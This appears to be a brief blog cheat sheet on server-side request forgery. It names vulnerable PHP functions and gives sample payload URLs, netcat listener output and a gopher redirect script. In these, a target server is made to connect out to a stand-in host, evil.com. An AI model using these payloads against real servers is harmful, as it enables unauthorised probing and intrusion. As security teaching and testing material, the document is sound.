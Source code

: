 ```yaml
---
title: SSRF Tips
tags:
  - Writeup
abstract: 待补充
top: 0
date: 2019-05-18 20:14:29
---
```


[工具 SSRFmap](https://github.com/swisskyrepo/SSRFmap)

### SSRF PHP function

```
file_get_contents()
fsockopen()
curl_exec()
```

### URL schema support

> SFTP

```
http://safebuff.com/ssrf.php?url=sftp://evil.com:11111/

evil.com:$ nc -v -l 11111
Connection from [192.168.0.10] port 11111 [tcp/*] accepted (family 2, sport 36136)
SSH-2.0-libssh2_1.4.2
```

> Dict

```
http://safebuff.com/ssrf.php?dict://attacker:11111/

evil.com:$ nc -v -l 11111
Connection from [192.168.0.10] port 11111 [tcp/*] accepted (family 2, sport 36136)
CLIENT libcurl 7.40.0
```

> gopher

```
// http://safebuff.com/ssrf.php?url=http://evil.com/gopher.php
<?php
        header('Location: gopher://evil.com:12346/_HI%0AMultiline%0Atest');
?>

evil.com:# nc -v -l 12346
Listening on [0.0.0.0] (family 0, port 12346)
Connection from [192.168.0.10] port 12346 [tcp/*] accepted (family 2, sport 49398)
HI
Multiline
test
```

